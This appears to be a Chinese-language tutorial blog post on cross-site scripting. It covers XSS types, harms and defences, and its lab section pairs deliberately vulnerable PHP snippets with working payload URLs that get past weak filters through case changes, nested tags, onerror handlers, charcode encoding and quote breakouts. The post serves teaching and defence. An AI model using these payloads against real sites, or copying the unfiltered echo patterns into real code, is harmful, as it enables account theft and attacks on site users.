 ```yaml
---
layout: post
title:  "跨站脚本攻击"
categories: XSS
tags:  XSS
---
```


## 简介

**跨站脚本攻击**`(Cross Site Scripting)`，为了不和**层叠样式表**`(Cascading Style Sheets, CSS)`的缩写混淆，故将跨站脚本攻击缩写为XSS。恶意攻击者往Web页面里插入恶意Script代码，当用户浏览该页之时，嵌入其中Web里面的Script代码会被执行，从而达到恶意攻击用户的目的。

### 主要攻击危害

1. 盗取各类用户帐号，如机器登录帐号、用户网银帐号、各类管理员帐号

2. 控制企业数据，包括读取、篡改、添加、删除企业敏感数据的能力

3. 盗窃企业重要的具有商业价值的资料

4. 非法转账

5. 强制发送电子邮件

6. 网站挂马

7. 控制受害者机器向其它网站发起攻击



## XSS的攻击类型

### 反射型

又称为非持久性跨站点脚本攻击，它是最常见的类型的XSS。漏洞产生的原因是攻击者注入的数据反映在响应中。一个典型的非持久性XSS包含一个带XSS攻击向量的链接(即每次攻击需要用户的点击)。  

### 存储型

又称为持久型跨站点脚本，它一般发生在XSS攻击向量(一般指XSS攻击代码)存储在网站数据库，当一个页面被用户打开的时候执行。每当用户打开浏览器,脚本执行。持久的XSS相比非持久性XSS攻击危害性更大,因为每当用户打开页面，查看内容时脚本将自动执行。谷歌的orkut曾经就遭受到XSS。

### DOM型

其实DOM型也属于反射型的一种，不过比较特殊，所以一般也当做一种单独类型。
前提是易受攻击的网站有一个HTML页面采用不安全的方式从document.location 或document.URL 或 document.referrer获取数据（或者任何其他攻击者可以修改的对象）

## XSS的攻击实验

### 无任何过滤

```php
<? php
      echo $_GET["name"];
?>
```
以上代码没有做任何过滤,可直接输入`http://IP:port/index.php?name=<script>alert</script>`;,访问后可弹出弹框

### 过滤小写的<script>和</script>

```php
$name = $_GET["name"];
$name =  preg_replace("/<script>/","",$name);
$name =  preg_replace("/<\/script>/","",$name);
echo $name;
```
过滤了小写的`<script>`和`<\script>`,可以使用大小写绕过
`http://IP:port/index.php?name=<scripT>alert</scripT>`;

### 过滤了不区分大小写的<script>和</script>

```php
$name = $_GET["name"];
$name =  preg_replace("/<script>/","",$name);
$name =  preg_replace("/<\/script>/","",$name);
echo $name;
```

过滤了不区分大小写的`<script>`和`<\script>`,可以使用嵌套的script标签绕过
`http://IP:port/index.php?name=<scr<script>ipT>alert</scr</script>ipT>`;

### 包含script字符即报错

```php
if (preg_match('/script/i',$_GET["name"])) {
      die("error")
}
```

包含script字符即报错,可以使用img标签来绕过.`http://IP:port/index.php?name=<img src="" onerror="alert('xxs')">`

### 直接过滤alert

``` php
if(preg_math('/alert/i',$_GET["name"])) {
      die("error");
}
```
包含alert即报错,可以使用编码来绕过`http://IP:port/index.php?name=<script>eval(String.fromCharCode(97,108,101,114,116,40,39,120,115,115,39,41))</script>`

### 直接在js环境中输出php变量

``` php
<script> var $a ="<?php echo $_GET["name"]; ?>"</script>
```
直接在js环境中输出php变量可以构造js脚本绕过`http://IP:port/index.php?name=</script><script>alert('XSS')</script>`

### htmlentities转换

```php
<script>var $a = '<?php echo htmlentities($_GET["name"]); ?>';
</script>
```
`htmlentities()`把字符转换为 HTML 实体,但没有转换特殊字符,用单引号来绕过`http://IP:port/index.php?name=';alert('xss');'`

### 使用锚点ID

```php
<script>doucument.write(location.hash.substring(1))</script>
```

在页面输出锚点,location.hash获取URL的锚点包含#号,substring(1)去除#.则构建一个带xss的锚点即可
`http://IP:port/index.php#<script>alert('XSS')</script>`,刷新页面即可弹窗.

## XSS防御

### 基于代码修改的防御

和SQL注入防御一样,XSS攻击也是利用了Web页面的编写疏忽,所以可以从Web应用开发的角度来避免:

- 步骤一: 对所有用户提交内容进行可靠的输入验证,包括对`URL`,`查询关键字`,`HTTP头`,`POST数据`等,金接受指定长度范围内,采用适当格式,采用所预期的内容提交,对其他一律过滤.
- 步骤二: 实现Session标记,CAPTHA系统或者HTTP应用头检查,以防功能被第三方网站所执行.
- 步骤三: 确认接受的内容被妥善规范化,仅包含最小的,安全的Tag(没有JavaScript等),去掉任何远程内容的引用)(尤其是样式表和javacript),使用HTTP only的cookie.

### 基于特征的防御

传统XSS防御多采用特征匹配方式,在所有提交的信息中都进行匹配检查.对于这种类型的XSS攻击,采用模式匹配方法一般会需要对`javascript`这个关键字进行检索,一旦发现提交信息中包含`javascript`,就可以认为存在XSS攻击

## 参考资料

### [【实验吧】XSS攻击与防御综合挑战专题](http://www.shiyanbar.com/experiment-course/detail/369)

### [【那一夜随风】XSS跨站脚本攻击](https://www.cnblogs.com/phpstudy2015-6/p/6767032.html)

### [关于XSS（跨站脚本攻击）和CSRF（跨站请求伪造）](https://cnodejs.org/topic/50463565329c5139760c34a1)
